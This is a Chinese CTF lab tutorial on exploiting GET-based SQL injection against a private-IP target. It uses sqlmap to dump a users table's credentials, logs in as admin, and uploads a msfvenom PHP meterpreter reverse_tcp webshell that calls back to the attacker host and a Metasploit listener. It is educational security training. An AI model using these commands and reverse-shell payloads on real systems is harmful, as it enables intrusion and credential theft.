










# CTF夺旗：P10：8.9. SQL注入(GET) 🚩

在本节课中，我们将学习Web安全中的SQL注入漏洞。我们将通过利用SQL注入漏洞获取系统的用户名和密码，登录系统后台，寻找上传点，上传Webshell并执行，最终获取目标Flag值。

## 什么是SQL注入漏洞？

上一节我们介绍了课程目标，本节中我们来看看SQL注入漏洞的核心概念。

SQL注入攻击，指的是通过构建特殊的输入作为参数传入到Web应用程序中。这些输入通常是SQL语句的恶意组合。通过执行我们构造的SQL语句，进而执行我们想要的操作。

SQL注入漏洞产生的原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统并执行了非预期的操作。

## SQL注入产生的原因

以下是SQL注入漏洞通常表现的几个方面：
1.  不正当的类型处理。
2.  不安全的数据库配置。
3.  不合理的查询集处理。
4.  不当的错误处理。
5.  转义字符处理不当。
6.  多个提交处理不当。


实际上，其本质原因是程序允许用户输入，而用户输入了恶意字符后，系统没有对其进行过滤或过滤不严格，从而导致SQL注入漏洞的出现。

## 实验环境介绍



在开始课程之前，我们先介绍一下今天的实验环境。

*   **攻击机**：IP地址为 `192.168.253.12`，系统为Kali Linux。
*   **靶机**：IP地址为 `192.168.253.15`。


我们的目标是获得靶机的控制权，并找到Flag值。



## 第一步：信息探测

无论在日常工作还是CTF比赛中，第一步通常是对目标进行信息探测。本节中我们来看看如何探测靶机信息。

首先，我们需要探测靶机开放的服务及其版本信息。我们使用Nmap工具进行扫描。

**命令**：
```bash
nmap -sV 192.168.253.15
```
此命令会向靶机发送探测包，并分析返回的响应，以识别开放端口和运行的服务版本。

除了基础服务扫描，我们还可以进行更全面的信息探测。

**命令**：
```bash
nmap -T4 -A -v 192.168.253.15
```
参数说明：
*   `-T4`：设置扫描速度为“较快”。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

扫描完成后，我们可以对特定服务进行深入探测。例如，针对HTTP服务，我们可以使用`nikto`工具扫描Web应用的敏感信息。



**命令**：
```bash
nikto -host http://192.168.253.15
```
如果HTTP服务运行在非80端口（如8080），则需要在命令中指定端口号：`http://192.168.253.15:8080`。

## 第二步：信息分析与漏洞扫描



探测完信息后，我们需要对其进行分析，挖掘可利用的信息。上一节我们进行了信息收集，本节中我们来看看如何分析结果并寻找漏洞。

分析Nmap和Nikto的扫描结果，我们发现靶机开放了HTTP服务，并且存在一个后台登录页面：`/admin/login.php`。

我们在浏览器中访问该页面：`http://192.168.253.15/admin/login.php`。尝试使用常见弱口令（如`admin/admin`）登录失败，说明不存在此类漏洞。

因此，我们需要寻找其他漏洞来获取登录凭证。下一步是对Web应用进行漏洞扫描。我们使用Kali Linux集成的Web漏洞扫描器——OWASP ZAP。

1.  打开ZAP软件。
2.  在地址栏输入靶机URL：`http://192.168.253.15`。
3.  点击“Attack”按钮开始主动扫描。

扫描完成后，ZAP会以不同颜色标记漏洞风险等级（红色为高危，黄色为中危，浅黄色为低危）。扫描结果显示存在“SQL注入”高危漏洞。

## 第三步：利用SQL注入漏洞

发现SQL注入漏洞后，我们就可以利用它来获取数据库中的敏感信息。本节中我们来看看如何利用`sqlmap`工具进行自动化注入。

首先，我们使用`sqlmap`确认注入点并获取数据库名。

**命令**：
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" --dbs
```
参数说明：
*   `-u`：指定测试的URL。
*   `--dbs`：枚举数据库管理系统中的数据库。

命令执行后，`sqlmap`会返回可用的数据库列表。我们关注非系统自带的数据库（如`portal_db`）。

接下来，我们列出目标数据库中的所有表。

**命令**：
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_db --tables
```
参数说明：
*   `-D`：指定要枚举的数据库。
*   `--tables`：枚举指定数据库中的表。



我们发现一个名为`users`的表，很可能存储了用户凭证。接着，我们查看该表中有哪些列（字段）。



**命令**：
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_db -T users --columns
```
参数说明：
*   `-T`：指定要枚举的表。
*   `--columns`：枚举指定表中的列。



结果显示有`login`和`password`列。最后，我们导出这两列的数据。



**命令**：
```bash
sqlmap -u "http://192.168.253.15/vuln.php?id=1" -D portal_db -T users -C "login,password" --dump
```
参数说明：
*   `-C`：指定要导出的列。
*   `--dump`：导出指定列的数据。

成功获取到用户名`admin`和其密码的MD5哈希值。使用在线工具或本地破解，得到明文密码为`P4SSW0RD`。

## 第四步：登录后台与上传Webshell

获取凭证后，我们即可登录系统后台。本节中我们来看看登录后如何进一步获取服务器权限。

使用用户名`admin`和密码`P4SSW0RD`成功登录后台。我们的下一步目标是上传一个Webshell（一种恶意脚本），以便在服务器上执行命令。

首先，我们需要生成一个PHP的反弹Shell代码。在Kali攻击机上使用`msfvenom`工具生成。

**命令**：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
参数说明：
*   `-p`：指定Payload类型。
*   `LHOST`：监听主机的IP地址（攻击机IP）。
*   `LPORT`：监听端口。
*   `-f raw`：输出原始格式。

将生成的PHP代码保存为文件，例如`shell.php`。



同时，我们需要在攻击机上启动Metasploit框架来监听反弹连接。

1.  打开终端，输入`msfconsole`启动Metasploit。
2.  设置监听模块和参数：

    **命令序列**：
    ```bash
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    exploit
    ```

## 第五步：获取Flag



在后台找到文件上传功能点，将生成的`shell.php`文件上传到服务器。访问上传后的Shell文件地址，触发连接。

此时，在Metasploit监听端会成功接收到一个`meterpreter`会话，这意味着我们获得了靶机的命令行交互权限。

在`meterpreter`会话中，我们可以执行系统命令来寻找Flag文件。通常Flag会放在根目录、Web目录或用户主目录下，文件名可能为`flag`、`flag.txt`、`proof.txt`等。

**示例命令**：
```bash
# 切换到交互式Shell
shell
# 在文件系统中搜索Flag
find / -name "*flag*" 2>/dev/null
find / -name "*.txt" | xargs grep -l "flag{" 2>/dev/null
```
找到Flag文件后，使用`cat`命令读取其内容，即可完成挑战。

## 总结

本节课中我们一起学习了SQL注入漏洞的完整利用流程：
1.  **信息收集**：使用Nmap、Nikto探测目标信息。
2.  **漏洞发现**：使用ZAP扫描器发现SQL注入点。
3.  **漏洞利用**：使用Sqlmap自动化工具注入获取数据库中的用户凭证。
4.  **权限提升**：登录后台，上传Webshell，获取服务器反向连接。
5.  **获取Flag**：在服务器文件系统中找到并读取Flag。

这个流程涵盖了从外网信息探测到最终获取权限的关键步骤，是CTF比赛中Web类题目的典型解题思路。